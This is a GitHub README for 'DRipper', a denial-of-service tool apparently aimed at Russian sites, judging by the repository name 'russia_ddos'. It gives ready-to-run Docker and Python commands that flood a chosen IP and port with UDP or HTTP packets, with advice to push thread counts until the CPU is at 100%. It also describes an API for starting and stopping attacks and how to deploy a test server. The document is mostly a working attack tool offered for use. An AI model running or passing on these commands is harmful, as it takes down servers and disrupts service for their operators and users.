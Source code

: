 # Description
This is clone of one of ChameleonTartu repos!! 
Creds for original scripts to him!

https://github.com/ChameleonTartu

## Description

This is an optimized version of DRipper. Here is original code: https://gist.github.com/scamp/33807688d0ebdcfbd4c29a4b992a8b54, you can see there a lot of cons like extra requests to Facebook and validator.w3.com, trying establishing connection with attacked resource (but there is no need in it if you want to send a UDP packet). Also the old version is inefficient: you need run several processes to have your processor busy.


## Usage
1. Docker

```bash
docker run -ti --rm alexmon1989/dripper:latest -s testip -p 80 -t 100
```

2. Directly with Python.

Ensure you have Python 3 installed. Then clone this repo and run main.py with params you need:

-s - IP;

-p - port (default - random from (22, 53, 80, 443) for every packet sending);

-t - threads count. The most important setting. Try to keep the processor busy up to 100%.

-m - attack method: udp (default), http

-r - send packets with random length (up to 50 Kb, works only with UDP attack method)

--resources - name of the resource under attack

```bash
git clone https://github.com/alexmon1989/russia_ddos.git
cd russia_ddos

# run
python -u DRipper.py -s testip -p 80 -t 100 -r 1 -m udp
# OR
python3 -u DRipper.py -s testip -p 80 -t 100 -r 1 -m udp
```


## API

API is a more convenient wrapper over start, stop, list processed for Dripper.py

```
git clone https://github.com/alexmon1989/russia_ddos.git
cd russia_ddos

# run
pip install requirements.txt
# or
pip3 install requirements.txt

python api.py
# or
python3 api.py
```

Swagger documentation is under 

```
http://localhost:49155/docs
```

## Running test server

Compiling and running locally: 
```
cd test-server/src
javac TestSocketServer.java

# Run
jar cmvf META-INF/MANIFEST.MF heroku/TestSocketServer.jar *.class
java -jar heroku/TestSocketServer.jar mod
  
# Or
java TestSocketServer
```
Deploy to heroku:
```
cd heroku
heroku plugins:install java
heroku create --no-remote
heroku deploy:jar TestSocketServer.jar --app <your app>
heroku config -a <your app>

heroku logs --tail --app <your app>
```

